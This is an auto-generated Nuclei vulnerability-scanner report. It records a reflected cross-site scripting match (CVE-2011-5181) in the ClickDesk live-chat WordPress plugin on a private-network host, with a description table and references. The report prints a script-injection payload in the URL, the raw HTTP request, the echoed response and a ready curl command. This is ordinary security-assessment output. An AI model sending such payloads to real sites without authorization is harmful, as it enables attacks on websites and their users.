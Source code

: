 ### ClickDesk Live Support Live Chat 2.0 - Reflected Cross-Site Scripting (CVE-2011-5181) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2011-5181**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/clickdesk-live-support-chat/clickdesk.php?cdwidgetid=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:18 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | ClickDesk Live Support Live Chat 2.0 - Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2011, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | A cross-site scripting vulnerability in clickdesk.php in ClickDesk Live Support - Live Chat plugin 2.0 for WordPress allows remote attackers to inject arbitrary web script or HTML via the cdwidgetid parameter. |
| CVE-ID | [CVE-2011-5181](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2011-5181) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /wp-content/plugins/clickdesk-live-support-chat/clickdesk.php?cdwidgetid=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 262
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/clickdesk-live-support-chat/clickdesk.php?cdwidgetid=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2011-5181
- http://www.securityfocus.com/bid/50778
- http://wordpress.org/extend/plugins/clickdesk-live-support-chat-plugin/changelog/
- http://osvdb.org/77338

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/clickdesk-live-support-chat/clickdesk.php?cdwidgetid=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)